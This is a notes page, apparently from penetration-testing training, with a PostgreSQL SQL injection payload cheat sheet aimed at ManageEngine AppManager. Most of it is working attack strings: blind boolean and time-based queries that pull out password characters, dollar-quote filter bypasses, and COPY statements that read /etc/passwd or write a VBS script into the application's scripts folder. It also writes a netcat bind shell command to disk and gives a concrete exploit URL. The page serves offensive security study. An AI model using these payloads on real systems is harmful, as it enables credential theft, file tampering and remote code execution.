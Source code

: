 ```yaml
---
{"dg-publish":true,"permalink":"/1-hack-like-a-script-kiddie/web/postgres-sql/psql-payload/","noteIcon":"","created":"2025-04-15T14:11:19.611-04:00"}
---
```

















# psql execution
```
psql -p 15432 -U postgres -d amdb  ; `appmanager`

```

# Payload

```
select convert_from(decode('QVdBRQ==', 'base64'), 'utf-8');

select+case+when(ascii(substr((select+content+from+awae),1,1))=104)+then+pg_sleep(2)

amdb=#SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69);

CREATE TEMP TABLE AWAE(offsec text);INSERT INTO AWAE(offsec) VALUES ($test$);
COPY AWAE(offsec) TO $C:\Program Files (x86)\PostgreSQL\9.2\data\test.txt$;


python payload.py --target manageengine --sqli ';' --payload 'SELECT case when (SELECT current_setting($is_superuser$))=$on$ then pg_sleep(10) else pg_sleep(2) end;--' 


# Payload to copy files to a file. 

copy (select convert_from(decode($ENCODED_PAYLOAD$,$base64$),$utf-8$)) to $C:\\Program+Files+(x86)\\ManageEngine\\AppManager12\\working\\conf\\\\application\\scripts\\wmiget.vbs$;

copy (select convert_from(decode($QVdBRQ==$,$base64$),$utf-8$)) to $/test.txt$;

------

CREATE temp table awae (content text);
COPY awae from $c:\awae.txt$;
SELECT content from awae;
DROP table awae;



# Boolean, Expect the normal return if works. 
[] (SELECT+(CASE+WHEN+(1%3d1)+THEN+9999+ELSE+1/(SELECT+0)+END))--
[] (SELECT (CASE WHEN (1=1) THEN 999 ELSE 1/(SELECT 0) END))
[] order=(SELECT (CASE WHEN substring((SELECT datname FROM pg_database LIMIT 1),1,1)='p' THEN 1592 ELSE 1592/(SELECT 0) END))
[] order=(SELECT (CASE WHEN substring((SELECT password FROM users LIMIT 1 offset 0),1,1)='V' THEN 1592 ELSE 1592/(SELECT 0) END))--

```

# Time based vs boolean based
```

# Timebased
[] (SELECT 1 FROM PG_SLEEP(5))
[] (select+case+when(ascii(substr((select+password+from+users),1,1))=104)+then+pg_sleep(2))
[] SELECT case when(substr((select password from users LIMIT 1 offset 0 ),1,1)='V') THEN pg_sleep(2) END;
[] SELECT (case when(ascii(substr((select password from users LIMIT 1 offset 0),1,1))=86) THEN pg_sleep(2) else pg_sleep(0) END);



/servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;create+temp+table+awae+(content+text);copy+awae+from+$c:\awae.txt$;select+case+when(ascii(substr((select+content+from+awae),1,1))=104)+then+pg_sleep(2)+end;--+
```

https://www.postgresql.org/docs/9.2/functions-string.html

https://book.hacktricks.xyz/pentesting-web/sql-injection/postgresql-injection

https://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md

https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05.4-Testing_PostgreSQL

https://medium.com/@V-Blaze/sql-injection-protecting-your-postgresql-database-ce8c0cc43685


# psql Stack!!
Stacked using case ..when..then..else. 
```
python payload.py --target manageengine --sqli ';' --payload 'SELECT case when (SELECT current_setting($is_superuser$))=$on$ then pg_sleep(10) else pg_sleep(2) end;--' 

```

# Log file location

```
\pgsql\data\amdb\postgresql.conf

```



# Psql instead of `'` use `$`
```
SELECT 'AWAE';
SELECT $AWAE$;
SELECT $TAG$AWAE$TAG$;
```

# psql File Read/Write
```
CREATE TABLE temp(t TEXT);
COPY temp FROM '/etc/passwd';
SELECT * FROM temp limit 1 offset 0;


CREATE TABLE pentestlab (t TEXT);
INSERT INTO pentestlab(t) VALUES('nc -lvvp 2346 -e /bin/bash');
SELECT * FROM pentestlab;
COPY pentestlab(t) TO '/tmp/pentestlab';

COPY (SELECT 'nc -lvvp 2346 -e /bin/bash') TO '/tmp/pentestlab';


```



